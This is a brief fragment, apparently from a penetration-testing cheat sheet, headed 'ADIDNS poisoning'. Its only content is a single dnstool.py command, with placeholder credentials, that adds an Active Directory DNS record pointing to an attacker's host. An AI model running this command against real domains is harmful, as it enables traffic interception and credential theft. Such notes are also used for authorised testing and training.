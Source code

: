# ⚒ ADIDNS poisoning

```bash
python3 dnstool.py -u '<DOMAIN>\<USERNAME>' -p '<PASSWORD>' -r test.<DOMAIN> -d <LHOST> -a add <IP>
```
